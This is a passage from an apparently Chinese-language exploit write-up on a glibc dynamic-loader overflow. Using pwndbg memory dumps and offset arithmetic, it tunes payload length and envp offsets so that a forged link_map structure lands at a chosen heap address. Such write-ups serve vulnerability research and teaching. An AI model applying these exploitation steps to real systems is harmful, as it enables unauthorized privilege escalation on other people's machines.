 从这里可以得知link_map  
结构体的前部分结构应该没有问题，但是问题在于后部：  
```
pwndbg> x/6gx 0x7fca03d3c2b30x7fca03d3c2b3: 0x673a000000404028  0x6c616d2e6362696c0x7fca03d3c2c3: 0x6166786d2e636f6c  0x00000000003d74730x7fca03d3c2d3: 0x0000000000000000  0x0000000000000000pwndbg> x/5s 0x7fca03d3c2b30x7fca03d3c2b3: "(@@"0x7fca03d3c2b7: ""0x7fca03d3c2b8: ""0x7fca03d3c2b9: ":glibc.malloc.mxfast="0x7fca03d3c2cf: ""
```  
  
受漏洞点的限制，溢出的结尾必定有:xxxxx=  
字符，我们要做的就是让该字符，离link_map  
结构远一点，或者该部分区域会在ld  
中进行初始化设置。  
  
想要精细的调整，需要去研究哪些结构可以不置 0，但是我认为这种程度的精细调整并非必要，只需要调整payload  
的长度，和envp[0x20 + 0xb8]  
前部分这个偏移值，让:xxxxx=  
字符串不影响到我们覆盖的地址就行。先这样使用，如果遇到报错，则继续调整，这样我们就没有必要继续阅读 glibc 源码。  
  
当我把payload  
的大小调整为0x200  
时，这个时候的内存布局如下：  
```
pwndbg> vmmap    0x7f94440ce000     0x7f94440d0000 rw-p     2000 0      [anon_7f94440ce]pwndbg> x/2gx 0x7f94440ce000 + 0x2000x7f94440ce200: 0x616d2e6362696c67  0x66786d2e636f6c6cpwndbg> x/8gx 0x7f94440ce4b30x7f94440ce4b3: 0x0000000000404028  0x00000000000000000x7f94440ce4c3: 0x0000000000000000  0x00000000000000000x7f94440ce4d3: 0x0000000000000000  0x00000000000000000x7f94440ce4e3: 0x0000000000000000  0x0000000000000000pwndbg> x/32gx 0x7f94440ce4b3 - 0xb80x7f94440ce3fb: 0x0000000000000000  0x00000000000000000x7f94440ce40b: 0x0000000000000000  0x00000000000000000x7f94440ce41b: 0x0000000000000000  0x00000000000000000x7f94440ce42b: 0x0000000000000000  0x00000000000000000x7f94440ce43b: 0x0000000000000000  0x00000000000000000x7f94440ce44b: 0x0000000000000000  0x00000000000000000x7f94440ce45b: 0x0000000000000000  0x00000000000000000x7f94440ce46b: 0x0000000000000000  0x00000000000000000x7f94440ce47b: 0x0000000000000000  0x00000000000000000x7f94440ce48b: 0x0000000000000000  0x00000000000000000x7f94440ce49b: 0x0000000000000000  0x00000000000000000x7f94440ce4ab: 0x0000000000000000  0x0000000000404028
```  
  
从上面的内存布局来看，我们构造的link_map  
结构是没问题的，但是怎么让link_map  
申请的内存段为我们设置好的这段呢？我们先算一下，我们需要让link_map = 0x7f94440ce3fb  
，那么：  
```
>>> hex(0x7f94440ce3fb - 0x7f94440ce200)'0x1fb'
```  
  
中间这0x1fb  
字节需要被填充。另外需要考虑对齐的问题，堆分配到的地址不可能结尾地址为0xfb  
，所以还需要微调一下：envp[0x25 + 0xb8] = "\x28\x40\x40";  
  
再看一下内存结构：  
```
pwndbg> vmmap    0x7f52386a6000     0x7f52386a8000 rw-p     2000 0      [anon_7f52386a6]pwndbg> x/2gx 0x7f52386a6000 + 0x2000x7f52386a6000: 0x616d2e6362696c67  0x66786d2e636f6c6cpwndbg> x/2gx 0x7f52386a64b80x7f52386a64b8: 0x0000000000404028  0x0000000000000000pwndbg> x/32gx 0x7f52386a64b8 - 0xb80x7f52386a6400: 0x0000000000000000  0x00000000000000000x7f52386a6410: 0x0000000000000000  0x00000000000000000x7f52386a6420: 0x0000000000000000  0x00000000000000000x7f52386a6430: 0x0000000000000000  0x00000000000000000x7f52386a6440: 0x0000000000000000  0x00000000000000000x7f52386a6450: 0x0000000000000000  0x00000000000000000x7f52386a6460: 0x0000000000000000  0x00000000000000000x7f52386a6470: 0x0000000000000000  0x00000000000000000x7f52386a6480: 0x0000000000000000  0x00000000000000000x7f52386a6490: 0x0000000000000000  0x00000000000000000x7f52386a64a0: 0x0000000000000000  0x00000000000000000x7f52386a64b0: 0x0000000000000000  0x00000000004040280x7f52386a64c0: 0x0000000000000000  0x00000000000000000x7f52386a64d0: 0x0000000000000000  0x00000000000000000x7f52386a64e0: 0x0000000000000000  0x00000000000000000x7f52386a64f0: 0x0000000000000000  0x0000000000000000>>> hex(0x7f52386a6400 - 0x7f52386a6200 - 0x10)'0x1F0'# 减去 0x10 是因为 payload 长度为 0x200，实际 malloc 申请的是 0x201，再加上偏移，所以下一个堆其实地址应该是 +0x210
```  
  